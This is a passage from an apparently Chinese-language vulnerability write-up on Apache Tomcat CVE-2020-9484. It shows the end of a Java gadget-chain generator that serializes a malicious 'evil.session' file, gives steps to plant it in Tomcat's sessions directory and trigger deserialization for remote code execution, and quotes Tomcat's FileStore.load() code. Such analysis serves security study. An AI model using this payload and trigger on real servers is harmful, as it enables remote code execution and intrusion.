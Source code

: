 ```java

        Reflections.setFieldValue(templates, "_auxClasses", null);
        Reflections.setFieldValue(templates, "_class", null);

        map.put(zeroHashCodeStr, templates); // swap in real object
        serialize(set, "e:/evil.session");
        return set;
    }

}
```
配置idea参数为
![image.png](https://y4er.com/img/uploads/20200525100696.png)
然后运行生成`e:/evil.session`文件，将其保存到`D:\tomcat\apache-tomcat-7.0.99\work\Catalina\localhost\cve-2020-9484_war\sessions`目录中，burp抓包设置session为evil，触发反序列化达成RCE。

![image.png](https://y4er.com/img/uploads/20200525105570.png)
![image.png](https://y4er.com/img/uploads/20200525100287.png)

## 分析
在php中会将用户session以文件的形式存储到服务器中，java自然也可以，对于大型的企业应用，为了避障会将数据库或者session以文件的形式保存到文件中，那么以文件的形式保存对象自然就涉及到了序列化和反序列化。

通过复现漏洞可知该反序列化入口点在于`Context.xml`中配置的`org.apache.catalina.session.FileStore`，查看其代码在load()中发现readObjcet

```java
    public Session load(String id) throws ClassNotFoundException, IOException {
        File file = this.file(id);
        if (file != null && file.exists()) {
            Context context = (Context)this.getManager().getContainer();
            Log containerLog = context.getLogger();
            if (containerLog.isDebugEnabled()) {
                containerLog.debug(sm.getString(this.getStoreName() + ".loading", new Object[]{id, file.getAbsolutePath()}));
            }

            FileInputStream fis = null;
            ObjectInputStream ois = null;
            Loader loader = null;
            ClassLoader classLoader = null;
            ClassLoader oldThreadContextCL = Thread.currentThread().getContextClassLoader();

            StandardSession var11;
            try {
                fis = new FileInputStream(file.getAbsolutePath());
                loader = context.getLoader();
                if (loader != null) {
                    classLoader = loader.getClassLoader();
                }

                if (classLoader != null) {
                    Thread.currentThread().setContextClassLoader(classLoader);
                }

                ois = this.getObjectInputStream(fis);
                StandardSession session = (StandardSession)this.manager.createEmptySession();
                session.readObjectData(ois);
                session.setManager(this.manager);
                var11 = session;
                return var11;
            } catch (FileNotFoundException var25) {
```